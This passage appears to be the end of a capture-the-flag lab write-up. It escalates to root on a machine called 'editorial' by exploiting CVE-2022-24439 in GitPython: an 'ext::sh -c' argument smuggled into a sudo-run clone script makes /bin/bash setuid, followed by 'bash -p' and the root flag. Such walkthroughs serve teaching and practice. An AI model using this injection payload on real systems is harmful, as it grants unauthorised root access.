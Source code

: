 ### CVE-2022-24439: GitPython Remote Code Execution (RCE)

We searched for `GitPython` vulnerabilities and found a `Remote Code Execution (RCE)` vulnerability if a script uses `protocol.ext.allow`.

- [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

We used the `Proof of Concept (PoC)` code and got code execution in the context of `root`.

```c
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% +s% /bin/bash'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% +s% /bin/bash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
```

REASON: Exploiting this vulnerability is possible because the library makes external calls to git without sufficient sanitization of input arguments. This is only relevant when enabling the ext transport protocol.

Shout-out to `ar0x4`!

```c
prod@editorial:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14 11:31 /bin/bash
```

```c
prod@editorial:~$ /bin/bash -p
bash-5.1#
```

## root.txt

```c
bash-5.1# cat /root/root.txt
b46dc5a75e39aacf885440416531604b
```

